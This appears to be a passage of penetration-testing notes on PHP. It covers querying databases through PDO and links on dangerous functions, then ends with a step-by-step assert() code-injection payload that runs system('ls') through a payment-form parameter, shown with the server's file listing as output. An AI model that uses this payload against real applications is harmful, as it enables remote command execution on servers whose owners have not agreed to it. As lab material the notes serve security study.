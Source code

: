 ```php
?>
```
{% endcode %}

## Database

In case we have to connect to MySQL/PostgreSQL/other DB but that mysql/psql binaries are not present -> use PHP PDO

{% code overflow="wrap" fullWidth="true" %}
```sh
https://www.php.net/manual/en/book.pdo.php
php --interactive
php > $connection = new PDO('pgsql:dbname=mydb;host=localhost', 'myuser', 'mypass'); # pgsql or mysql, w/ dbname, user/pass
php > $connect = $connection->query("select * from users"); # make a query
php > $results = $connect->fetchAll();
php > print_r($results);
```
{% endcode %}

## Dangerous functions

[https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720)

## assert (RCE)

[https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/php-tricks-esp/index.html?highlight=assert#rce-via-assert](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/php-tricks-esp/index.html?highlight=assert#rce-via-assert)

You will need to **break the code syntax, add your payload, and then fix it again**. You can use logic operations such as "and" or "%26%26" or "|". Note that "or", "||" doesn't work because if the first condition is true our payload won't get executed. The same way ";" doesn't work as our payload won't be executed.

{% code overflow="wrap" fullWidth="true" %}
```bash
# Example of assert error
is_numeric('') !== false

# Since our first condition is false...

# break the code syntax
x')																'
# add your payload
or system('ls')
# fix it again
and is_numeric('a																	'

# Join your payload all together
amount=a') or system('ls') and is_numeric('a

# The whole body parameter would be
from=Alice&fromaddr=1234%20Main%20St&to=Bob&toaddr=5678%20Elm%20St&amount=a')%20or%20system('ls')%20and%20is_numeric('a&comments=Payment%20for%20July%20rent&cmd=id

# And the response is
...
addTransaction.php
index.php
license.txt
script.js
```